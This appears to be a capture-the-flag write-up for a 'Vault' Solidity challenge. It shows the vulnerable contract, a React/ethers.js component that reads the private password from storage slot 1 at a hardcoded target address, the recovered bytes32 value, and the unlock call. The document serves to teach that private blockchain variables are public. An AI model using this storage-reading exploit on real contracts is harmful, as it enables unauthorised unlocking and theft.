 # Vault Contract
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

# Solution
Event though you used private variables, everything on the blockchain is visible so you need to be careful. I used ethers.js to solve this as I am not yet able to find a solution 
to viewing storage with solidity. Below is my component using react.js and ethers.js to log out the storage. You will recieve a value such as
> 0x412076657279207374726f6e67207365637265742070617373776f7264203a29

This value is the bytes32 password that you will need.
> await contract.unlock('0x412076657279207374726f6e67207365637265742070617373776f7264203a29')

```
export default function ContractUI() {
    const targetAddress = '0x93177a1355694ca47163c3C9a44007e0B518Cd8b';
    const { ethers} = require('ethers');

    const attackContract = async () => {
        try {
            const { ethereum } = window;
            if(ethereum) {
                const provider = new ethers.providers.Web3Provider(ethereum)
                await provider.send("eth_requestAccounts", []);
                const storage = await provider.getStorageAt(targetAddress, 1)
                console.log('Storage: ', storage)
            }
        } catch(err) {
            console.log("Request Failed: ", err.message);
        }
    }

  return (
    <div>
        <h1>CONTRACT UI</h1>
        <button onClick={() => attackContract()}>Attack</button>
    </div>
  )
}

```

# What I learned
1. Sometimes you need to use a different framework to solve an issue.
2. private variables are not really "private" on the blockchain.
